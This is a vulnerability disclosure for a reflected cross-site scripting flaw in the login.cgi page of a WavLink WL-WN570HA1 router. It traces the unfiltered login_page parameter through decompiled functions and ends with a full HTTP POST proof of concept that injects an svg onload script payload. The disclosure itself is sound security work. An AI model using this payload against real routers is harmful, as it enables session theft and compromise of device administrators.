





# WL-WN570HA1 Vulnerability

Vendor:WavLink

Product:WL-WN570HA1

Vulnerability: XSS

Type:XSS Attack


## Descriptions

We found a XSS vulnerability  in `login.cgi` that could be triggered by an attacker through carefully crafted packet requests:

In  ftext function,the router compare the `page` parameter.

When the value of `page` is `login`, the function sub_401340 will be called.

<div  align="center"></div>

This function defines a variable login_page, retrieves its value from the request  packet, uses the sprintf function to concatenate it into v37, and finally passes the result to sub_401F80 for processing.

<div  align="center"></div>
<div  align="center"></div>

However，the sub_401F80 function creates a response packet and places the unfiltered value of the login_page into the packet.
<div  align="center"></div>

## Proof of Concept (PoC)

We set `login_page` as **login.shtml%3FM49583396"></script><svg/onload=alert()>"** ,such as:

```http
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 242
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=192.168.6.1&homepage=main.shtml&login_page=login.shtml%3FM49583396"></script><svg/onload=alert()>&hostname=192.168.6.2&key=M49583396&password=5db605dbf0f4680493bfd05c508cd9b5&lang_select=0
```

## outcome
<div  align="center"></div>
<div  align="center"></div>
